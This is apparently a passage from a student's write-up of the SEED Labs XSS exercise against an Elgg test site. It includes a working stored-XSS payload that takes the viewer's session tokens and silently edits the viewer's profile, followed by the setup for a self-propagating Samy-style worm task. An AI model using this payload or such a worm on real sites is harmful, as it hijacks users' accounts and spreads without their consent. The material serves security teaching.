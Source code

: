 ```html
<script type="text/javascript">
    window.onload = function(){
        //JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
        var name="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the content of your url.
        // var attackerGuid=...     //FILL IN
        // var sendurl=...;         //FILL IN
        // var desc=...'            //FILL IN
        // var content=...;         //FILL IN
        var attackerGuid=59;        // use “edit profile” to get your guid
        var sendurl="http://www.seed-server.com/action/profile/edit";
        var desc="&description=Samy is my hero!";
        desc+="&&accesslevel[description]=2";
        var content=token + ts + name + desc + guid;

        //Create and send Ajax request to modify profile
        if(elgg.session.user.guid!=attackerGuid){
            var Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Host", "www.seed-server.com");
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```

Similar to Task 3, the above code should be placed in the `"About Me"` field of Samy's profile page, and the Text mode should be enabled before entering the above JavaScript code.

## Task 5: Writing a Self-Propagating XSS Worm

To become a real worm, the malicious JavaScript program should be able to propagate itself. Namely, whenever some people view an infected profile, not only will their profiles be modified, the worm will also be propagated to their profiles, further affecting others who view these newly infected profiles. This way, the more people view the infected profiles, the faster the worm can propagate. This is exactly the same mechanism used by the Samy Worm: within just 20 hours of its October 4, 2005 release, over one million users were affected, making Samy one of the fastest spreading viruses of all time. The JavaScript code that can achieve this is called a **self-propagating cross-site scripting worm**. In this task, you need to implement such a worm, which not only modifies the victim's profile and adds the user "Samy" as a friend, but also add a copy of the worm itself to the victim's profile, so the victim is turned into an attacker.

To achieve self-propagation, when the malicious JavaScript modifies the victim's profile, it should copy itself to the victim's profile. There are several approaches to achieve this, and we will discuss two common approaches.
